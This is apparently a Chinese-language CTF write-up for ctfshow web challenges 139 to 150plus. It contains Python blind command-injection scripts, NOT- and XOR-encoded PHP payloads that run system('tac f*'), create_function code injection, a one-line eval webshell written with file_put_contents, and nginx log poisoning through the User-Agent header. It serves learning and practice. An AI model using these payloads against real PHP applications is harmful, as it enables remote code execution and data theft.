for i in range(1,5):         #知道flag在第四行，实际情况中把数字写大一些
	key=0
	for j in range(1,15):     #文件名的长度大小
		if key==1:
			break
		for n in str:
			payload="if [ `ls /|awk 'NR=={0}'|cut -c {1}` == {2} ];then sleep 3;fi".format(i,j,n)
			#print(payload)
			url="http://877848b4-f5ed-4ec1-bfc1-6f44bf292662.chall.ctf.show?c="+payload
			try:
				requests.get(url,timeout=(2.5,2.5))
			except:
			    result=result+n
			    print(result)
			    break
			if n=='9':
				key=1
	result+=" "
得出flag在根目录下的f149_15_h3r3中，继续盲注得出flag值
import requests
import time
import string
str=string.digits+string.ascii_lowercase+"-"
result=""
#key=0                      #key我感觉可以不用加
for j in range(1,45):
#	if key==1:
#		break   
	for n in str:
		payload="if [ `cat /f149_15_h3r3|cut -c {0}` == {1} ];then sleep 3;fi".format(j,n)
		#print(payload)
		url="http://877848b4-f5ed-4ec1-bfc1-6f44bf292662.chall.ctf.show?c="+payload
		try:
			requests.get(url,timeout=(2.5,2.5))
		except:
		    result=result+n
		    print(result)
		    break
```

群主脚本：

```
import requests

url = "http://fea78741-014c-4a82-8924-e4fc2541579f.challenge.ctf.show/?c="
payload = "if [ `cat /f149_15_h3r3  | cut -c {}` == \"{}\" ];then sleep 4;fi"

result = "+++++++++++++++++"

length=48

strings  = "abcdefghijklmnopqrstuvwxyz_-0123456789"
#strings  = "ctfshow}abdegijklmnpqruvwxyz_-0123456789{"

for c in range(1,length):
	print("+++++++++++++++第"+str(c)+"个字符")
	for s in strings:
		target = url+payload.format(c,s)
		#print(target)
		try:
			requests.get(target,timeout=2.5)
		except:
			result +=s
			print(result)
			break
	result += ""

print(result)
```

```
awk NR==num表示从第几行开始
ls / | awk NR=num

cut截取字符第几个字符
ls / | awk NR==2 | cut -c 2
```

---

## web-140（弱类型比较、intval()）

源码：

```
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['f1']) && isset($_POST['f2'])){
    $f1 = (String)$_POST['f1'];
    $f2 = (String)$_POST['f2'];
    if(preg_match('/^[a-z0-9]+$/', $f1)){
        if(preg_match('/^[a-z0-9]+$/', $f2)){
            $code = eval("return $f1($f2());");
            if(intval($code) == 'ctfshow'){
                echo file_get_contents("flag.php");
            }
        }
    }
}
```

解题思路：

弱类型比较，这里intval会把非数字字符转为0，然后后面的ctfshow也会自动进行类型转换，转换为0，所以要让$code的值为一个非零数字即可拿到flag，而`$code = eval("return $f1($f2());");`这里表示将$f2函数得到的值作为$f1的参数，然后将值赋给$code

intval把非数字字符转为0，比如`intval('a')==0 intval('.')==0 intval('/')==0`

payload：

```
f1=md5&f2=phpinfo          //md5(phpinfo())
f1=md5&f2=sleep            //md5(sleep())
f1=md5&f2=md5              //md5(md5())
f1=current&f2=localeconv   //current(localeconv())
f1=sha1&f2=getcwd          //sha1(getcwd()) 
f1=usleep&f2=usleep        //usleep(usleep())
```

---

## web-141（无字母数字命令执行（取反绕过））

源码：

```
#error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];

    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/^\W+$/', $v3)){
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}
```

解题思路：

**/^\W+$/ 作用是匹配非数字字母下划线的字符，所以这题考点很明显是无字母数字命令执行。**
**首先测试一下`eval("return 1;phpinfo();");`，不能执行phpinfo()，但是`eval("return 1-phpinfo()-1");`和`eval("return 1-phpinfo();");`所以我们构造payload就可以使用这两种类型**

payload：

```
用取反脚本构造 system('tac f*')
(~%8C%86%8C%8B%9A%92)(~%8B%9E%9C%DF%99%D5)	//system(‘tac f*’)

用-
?v1=1&v3=-(~%8C%86%8C%8B%9A%92)(~%8B%9E%9C%DF%99%D5)-&v2=1
用/
?v1=1&v3=/(~%8C%86%8C%8B%9A%92)(~%8B%9E%9C%DF%99%D5)/&v2=1
```

---

### 无字母数字命令执行

yu22x的关于绕过正则表达式的文章：

[无字母数字命令执行绕过正则总结包括各种绕过脚本](https://blog.csdn.net/miuzzx/article/details/109143413)

---

## web-142（is_numeric、sleep）

源码：

```
error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['v1'])){
    $v1 = (String)$_GET['v1'];
    if(is_numeric($v1)){
        $d = (int)($v1 * 0x36d * 0x36d * 0x36d * 0x36d * 0x36d);
        sleep($d);
        echo file_get_contents("flag.php");
    }
}
```

解题思路：

这里分析源码，很明显我们传入的v1的值必须是数字，然后会使用sleep函数，所以我们这里直接传入0即可

```
?v1=0
查看源码即可得到flag
```

---

## web-143（无字母数字命令执行（异或绕过））

源码：

```
highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];
    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/[a-z]|[0-9]|\+|\-|\.|\_|\||\$|\{|\}|\~|\%|\&|\;/i', $v3)){
                die('get out hacker!');
        }
        else{
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}
```

解题思路：

**分析源码发现和141很像，只是正则过滤判断的区别，本质上考点还是无字母数字命令执行，但是这里过滤掉了-和+，导致141题的payload不能用了，但还可以用*/**

payload：

```
这里~被过滤了，所以不能用取反绕过了，可以用异或绕过

?v1=1&v3=*("%13%19%13%14%05%0d"^"%60%60%60%60%60%60")("%14%01%03%00%06%00"^"%60%60%60%20%60%2a")*&v2=1 
或
v1=1&v3=*("%0c%06%0c%0b%05%0d"^"%7f%7f%7f%7f%60%60")("%0b%01%03%00%06%00"^"%7f%60%60%20%60%2a")*&v2=1
```

---

## web-144（无字母数字命令执行）

源码：

```
highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];

    if(is_numeric($v1) && check($v3)){
        if(preg_match('/^\W+$/', $v2)){
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}

function check($str){
    return strlen($str)===1?true:false;
}
```

解题思路：

**这里限制了$v3的长度必须为1，所以我们可以把命令写到$v2上**

**构造出`eval("return 1-phpinfo();");`**

payload

system('tac f*')

```
?v1=1&v3=-&v2=(~%8C%86%8C%8B%9A%92)(~%8B%9E%9C%DF%99%D5)
```

---

## web-145（无字母数字命令执行（三目运算符））

源码：

```
highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];
    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/[a-z]|[0-9]|\@|\!|\+|\-|\.|\_|\$|\}|\%|\&|\;|\<|\>|\*|\/|\^|\#|\"/i', $v3)){
                die('get out hacker!');
        }
        else{
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}
```

解题思路：

这题依然还是无字母数字命令执行，但是过滤掉了+-*/，但是这里还可以用三目运算符

**测试`eval("return 1?phpinfo():1;");`**

**能执行phpinfo**

payload：

```
?v1=1&v3=?(~%8C%86%8C%8B%9A%92)(~%8B%9E%9C%DF%99%D5):&v2=1
```

---

## web-146（无字母数字命令执行（等号=、位运算符||））

源码：

```
highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];
    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/[a-z]|[0-9]|\@|\!|\:|\+|\-|\.|\_|\$|\}|\%|\&|\;|\<|\>|\*|\/|\^|\#|\"/i', $v3)){
                die('get out hacker!');
        }
        else{
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}
```

解题思路：

**这题比上题又多过滤了; : ?，还可以用等号（=）和位运算符（||）**

**测试发现`eval("return 1==phpinfo()||1;");`**

**可以执行phpinfo**

payload：

```
?v1=1&v3===(~%8C%86%8C%8B%9A%92)(~%8B%9E%9C%DF%99%D5)||&v2=1
```

---

## web-147（create_function函数）

源码：

```
highlight_file(__FILE__);

if(isset($_POST['ctf'])){
    $ctfshow = $_POST['ctf'];
    if(!preg_match('/^[a-z0-9_]*$/isD',$ctfshow)) {
        $ctfshow('',$_GET['show']);
    }

}
```

解题思路：

**参考文章**：https://paper.seebug.org/755/

```avrasm
在PHP的命名空间默认为\，所有的函数和类都在\这个命名空间中，如果直接写函数名function_name()调用，调用的时候其实相当于写了一个相对路径；而如果写\function_name() 这样调用函数，则其实是写了一个绝对路径。如果你在其他namespace里调用系统类，就必须写绝对路径这种写法。

system =>\system            \是全局命名空间
/^[a-z0-9_]*$/isD
/i不区分大小写
/s匹配任何不可见字符，包括空格、制表符、换页符等等，等价于[\f\n\r\t\v]
/D如果使用$限制结尾字符,则不允许结尾有换行; 
数字字母下划线都被过滤了

这个正则可以用%5c(/)绕过
```

**可利用create_function()进行代码注入**

```undefined
create_function的第一个参数是参数，第二个参数是内容。
create_function('$a','return 123')

类似于：
function f($a) {
  return 123;
}
如果我们第二个参数传入 echo 1;}phpinfo();//
function f($a) {
  echo 1;}phpinfo();//
}
可以执行phpinfo()命令
```

payload：

```perl
get: show=echo 123;}system('tac f*');//
post: ctf=%5ccreate_function
```

**原理：**

```
if(!preg_match('/^[a-z0-9_]*$/isD',$ctfshow)) { 
	%5ccreate_function('',echo 123;}system('tac f*');//);}
```

---

### create_function（）

create_function()

```undefined
create_function的第一个参数是参数，第二个参数是内容。

create_function('$a','return 123')

类似于：
function f($a) {
  return 123;
}

如果我们第二个参数传入 echo 1;}phpinfo();//
function f($a) {
  echo 1;}phpinfo();//
}
可以执行phpinfo()命令
```

---

## web-148（无字母数字命令执行（异或绕过））

源码：

```
include 'flag.php';
if(isset($_GET['code'])){
    $code=$_GET['code'];
    if(preg_match("/[A-Za-z0-9_\%\\|\~\'\,\.\:\@\&\*\+\- ]+/",$code)){
        die("error");
    }
    @eval($code);
}
else{
    highlight_file(__FILE__);
}

function get_ctfshow_fl0g(){
    echo file_get_contents("flag.php");
}
```

**解题思路：**

**没有过滤^,所以可以用异或构造：**

**使用脚本时注意修改脚本中的正则。**

**python脚本：**

```
<?php

/*author yu22x*/

$myfile = fopen("xor_rce.txt", "w");
$contents="";
for ($i=0; $i < 256; $i++) { 
	for ($j=0; $j <256 ; $j++) { 

		if($i<16){
			$hex_i='0'.dechex($i);
		}
		else{
			$hex_i=dechex($i);
		}
		if($j<16){
			$hex_j='0'.dechex($j);
		}
		else{
			$hex_j=dechex($j);
		}
		$preg = '/[a-z0-9]/i'; //根据题目给的正则表达式修改即可
		if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
					echo "";
    }
  
		else{
		$a='%'.$hex_i;
		$b='%'.$hex_j;
		$c=(urldecode($a)^urldecode($b));
		if (ord($c)>=32&ord($c)<=126) {
			$contents=$contents.$c." ".$a." ".$b."\n";
		}
	}
}
}
fwrite($myfile,$contents);
fclose($myfile);

```

php运行后生成一个txt文档，包含所有可见字符的异或构造结果。
接着运行python脚本即可

```
# -*- coding: utf-8 -*-

# author yu22x

import requests
import urllib
from sys import *
import os
def action(arg):
   s1=""
   s2=""
   for i in arg:
       f=open("xor_rce.txt","r")
       while True:
           t=f.readline()
           if t=="":
               break
           if t[0]==i:
               #print(i)
               s1+=t[2:5]
               s2+=t[6:9]
               break
       f.close()
   output="(\""+s1+"\"^\""+s2+"\")"
   return(output)
   
while True:
   param=action(input("\n[+] your function：") )+action(input("[+] your command："))+";"
   print(param)

```

例如：

```
[+] your function：system
[+] your command：ls
("%08%02%08%08%05%0d"^"%7b%7b%7b%7c%60%60")("%0c%08"^"%60%7b");
```

**payload：**

```
?code=("%08%02%08%09%05%0d"^"%7b%7b%7b%7d%60%60")("%09%01%03%01%06%02"^"%7d%60%60%21%60%28");
```

**法二：中文变量**

payload：

```ruby
?code=$哈="`{{{"^"?<>/";${$哈}[哼](${$哈}[嗯]);&哼=system&嗯=tac f*
其中"`{{{" ^ "?<>/"异或得到_GET
$哈=_GET;
$_GET[哼]($_GET[嗯]);
?哼=system&嗯=tac f*
```

---

## web-149（file_put_contents）

源码：

```
error_reporting(0);
highlight_file(__FILE__);

$files = scandir('./'); 
foreach($files as $file) {
    if(is_file($file)){
        if ($file !== "index.php") {
            unlink($file);
        }
    }
}

file_put_contents($_GET['ctf'], $_POST['show']);

$files = scandir('./'); 
foreach($files as $file) {
    if(is_file($file)){
        if ($file !== "index.php") {
            unlink($file);
        }
    }
}
```

```
scandir(string $directory, int $sorting_order = ?, resource $context = ?): array
返回一个 array，包含有 directory 中的文件和目录。 
directory
    要被浏览的目录
sorting_order
	默认的排序顺序是按字母升序排列。如果使用了可选参数 sorting_order（设为 1），则排序顺序是按字母降序排列。
返回值
	成功则返回包含有文件名的 array，如果失败则返回 false

```

```
 foreach 语法结构提供了遍历数组的简单方式。foreach 仅能够应用于数组和对象，如果尝试应用于其他数据类型的变量，或者未初始化的变量将发出错误信息。有两种语法：
foreach (iterable_expression as $value)
    statement
foreach (iterable_expression as $key => $value)
    statement
第一种格式遍历给定的 iterable_expression 迭代器。每次循环中，当前单元的值被赋给 $value。
第二种格式做同样的事，只除了当前单元的键名也会在每次循环中被赋给变量 $key。 
例：
<?php
$arr = array(1, 2, 3, 4);
foreach ($arr as &$value) {
    $value = $value * 2;
}
// 现在 $arr 是 array(2, 4, 6, 8)

```

```
unlink(string $filename, resource $context = ?): bool
删除 filename。
filename
    文件的路径。
返回值
	成功时返回 true， 或者在失败时返回 false。
```

解题思路：

这题就是利用file_put_content函数写入文件然后执行命令

payload：

```
重写index，写个马进去 然后访问index POST:cmd=system('cat /ctfshow_fl0g_here.txt');
ctf=index.php
show=<?php system('tac /c*';)?>


1=system("ls /");	//查看目录
1=system("tac /ctfshow_fl0g_here.txt");	//查看flag
```

**非预期**

```php
ctf=index.php
POST：show=<?php eval($_POST[1]);?>
```

---

## web-150（日志包含rce）

源码：

```
include("flag.php");
error_reporting(0);
highlight_file(__FILE__);

class CTFSHOW{
    private $username;
    private $password;
    private $vip;
    private $secret;

    function __construct(){
        $this->vip = 0;
        $this->secret = $flag;
    }

    function __destruct(){
        echo $this->secret;
    }

    public function isVIP(){
        return $this->vip?TRUE:FALSE;
        }
    }

    function __autoload($class){
        if(isset($class)){
            $class();
    }
}

#过滤字符
$key = $_SERVER['QUERY_STRING'];
if(preg_match('/\_| |\[|\]|\?/', $key)){
    die("error");
}
$ctf = $_POST['ctf'];
extract($_GET);
if(class_exists($__CTFSHOW__)){
    echo "class is exists!";
}

if($isVIP && strrpos($ctf, ":")===FALSE){
    include($ctf);
}
```

解题思路：

```mipsasm
extract — 从数组中将变量导入到当前的符号表

class_exists — 检查类是否已定义
```

所以我们可以传入isVIP=1，通过`extract()`将原来的值覆盖掉

然后利用日志文件包含来rce

```lua
日志路径是/var/log/nginx/access.log
```

payload:

```php
User-Agent:<?php @eval($_POST[a]);?>
GET:?isVIP=1
POST:ctf=/var/log/nginx/access.log&a=system("tac fl*");
```

现在UA头里写入一句话，EXECUTE

然后进行日志包含：POST

让$isVIP等于1：GET        EXECUTE

//如果出不来，就换一个浏览器

---

## web-150plus（__autoload()）

源码：

```
include("flag.php");
error_reporting(0);
highlight_file(__FILE__);

class CTFSHOW{
    private $username;
    private $password;
    private $vip;
    private $secret;

    function __construct(){
        $this->vip = 0;
        $this->secret = $flag;
    }

    function __destruct(){
        echo $this->secret;
    }

    public function isVIP(){
        return $this->vip?TRUE:FALSE;
        }
    }
    //注意从这里class已经结束了，下面是一个专门的方法
    function __autoload($class){
        if(isset($class)){
            $class();
    }
}

#过滤字符
$key = $_SERVER['QUERY_STRING'];
if(preg_match('/\_| |\[|\]|\?/', $key)){
    die("error");
}
$ctf = $_POST['ctf'];
extract($_GET);
if(class_exists($__CTFSHOW__)){
    echo "class is exists!";
}

if($isVIP && strrpos($ctf, ":")===FALSE && strrpos($ctf,"log")===FALSE){
    include($ctf);
}
```

解题思路：

不能有：，也不能有log了

**function autoload是当进行类判断的时候(if(class_exists)，会自动调用function autoload**

**所以要尝试控制**

```bash
$_CTFSHOW_
```

**因为_被ban**

**可以用..来绕过**

```ruby
?..CTFSHOW..=phpinfo
```

**原本要在进行文件包含，但是服务器负载较大，所以这个phpinfo里面就有flag**

**直接CTRL+F，查找flag就行了**
